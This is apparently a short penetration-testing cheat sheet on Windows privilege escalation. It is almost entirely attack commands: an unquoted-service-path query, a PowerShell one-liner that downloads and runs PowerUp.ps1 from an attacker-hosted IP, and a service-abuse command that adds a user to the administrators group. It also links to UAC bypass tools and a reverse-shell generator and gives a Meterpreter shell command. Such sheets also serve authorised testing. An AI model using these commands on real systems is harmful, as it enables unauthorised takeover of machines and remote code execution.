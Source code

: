 ## Windows

[[Unquoted Service Path]](https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae) 

`wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """ `

Unquoted Service Path: See if user has permissions to launch found executable...

`sc stop SERVICE`

`sc start SERVICE`

Unquoted Service Path: See if you can (M)odify designated folder

`icacls "FOLDERNAME"`

### Power Shell Priv Escalation

1. Create HTTP Server to host PowerUp.ps1

2. iex (New-Object Net.WebClient).DownloadString('http://IP/PowerUp.ps1')
 
3. Invoke-AllChecks

Add your user to Admins group, go UAC Bypass from there.
4. Invoke-ServiceAbuse -Name AppReadiness -Command "net localgroup administrators bob /add"


[[Bypass Uac]](https://github.com/hfiref0x/UACME)
[[UACME Hackersploit video]](https://www.youtube.com/watch?v=RXX0FHM9SEk)

# All
Generate Payloads

https://www.revshells.com/

## Meterpreter

create shell and check gcc version

`execute -f /bin/sh -i -c`

`gcc --version`
